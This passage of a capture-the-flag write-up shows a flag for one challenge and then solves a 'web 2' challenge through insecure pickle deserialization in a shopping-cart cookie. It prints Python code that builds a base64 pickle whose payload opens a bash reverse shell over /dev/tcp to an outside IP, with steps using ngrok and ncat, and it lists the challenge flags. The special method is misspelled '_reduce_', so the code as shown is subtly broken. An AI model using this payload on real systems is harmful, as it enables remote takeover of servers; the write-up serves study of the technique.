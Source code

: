![Images](image/havoc_image/29.png)

and i got this flag

```bash
 CM{3xten5i0n5_w45_CR4zY}
```



## web 2
![Images](image/havoc_image/30.png)



From the name of the Challenge name we get the idea that we have to manipulated the cookie and from the text we got that there is deserialization vulnerability . so i tried to google it and find this **CVE-2022-34668** . And i get to know we can to this using pickle so i search how to escalate this in youtube and i got this video:
https://www.youtube.com/watch?v=qt15PnF8x-M

and from this i created my code 

```bash
##Define a class for malicious deserialization
class anti_pickle_serum(object):
    def _reduce_(self):
        # This is where the reverse shell command will be executed
        return subprocess.Popen, (["/bin/bash", "-c", "bash -i >& /dev/tcp/13.127.206.16/15704 0>&1"],)

##Serialize the payload and encode it
pickled = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
encoded_pickled = b64encode(pickled)

##Print the base64 encoded malicious payload
print(encoded_pickled.decode())
```


###   Steps of Exploitation
- Setup The Environment,
	- Start the `NGROK Server`
     - Start the `Ncat Server`
     - Prepare a `Reverse Shell Payload` to Put in Script
- Creating the Payload Using Above Script
 - Add Any Item in Cart
- Go to Cart Section
- Open up the Storage  Section Inspect
- `Replace the Malicious Cookie` and `Just Refresh` and  Got a Shell 🤯

![Images](image/havoc_image/31.png)

```bash
CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
```
